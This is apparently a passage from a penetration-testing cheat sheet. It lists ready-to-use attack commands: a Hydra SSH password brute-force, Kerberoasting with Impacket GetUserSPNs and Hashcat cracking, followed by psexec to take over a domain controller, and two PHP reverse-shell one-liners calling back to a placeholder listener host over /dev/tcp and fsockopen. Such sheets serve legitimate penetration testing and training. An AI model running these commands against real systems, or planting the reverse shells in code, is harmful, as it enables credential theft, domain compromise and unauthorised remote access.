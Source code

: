 ### 6.2.1	HYDRA

`hydra -l <USERNAME> -P <PASSWORDLIST> -s <PORT> ssh://<IP>`

# 7	KERBEROASTING [20]

## 7.1	DESCRIPTION

- Technique used to collect Kerberos tickets for service accounts that contain password hashes
- Hashes can be cracked offline. Service accounts sometimes run with elevated privileges.

## 7.2	SERVICE PRINCIPAL NAMES (SPN)

- Used to identify services on Windows
- They must be associated with an account (usually a service account)
- Any domain account including non-admin user can request tickets for these accounts

## 7.3	GET USER SPNs

- PowerSploit. Invoke-Kerberoast
- Empire

### 7.3.1	IMPACKET GetUserSPNs.py

`python GetUserSPNs.py -dc-ip <IP OF DC> <DOMAIN>/<USERNAME>:<PASSWORD> -request`

## 7.4	CRACK HASH

### 7.4.1	HASHCAT

`hashcat -m 13100 -a 0 <HASHFILE> <WORDLISTFILE>`

## 7.5	EXPLOIT

- Use msfconsole psexec module to pwn the DC with new creds. Access as service account

# 8	REVERSE SHELLS [3][37][40]

## 8.1	PHP

### 8.1.1	-

`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<LISTENER_IP>/<LISTENER_PORT> 0>&1'");?>`

### 8.1.2	-

`php -r '$sock=fsockopen("<LISTENER_IP>",<LISTENER_PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'`
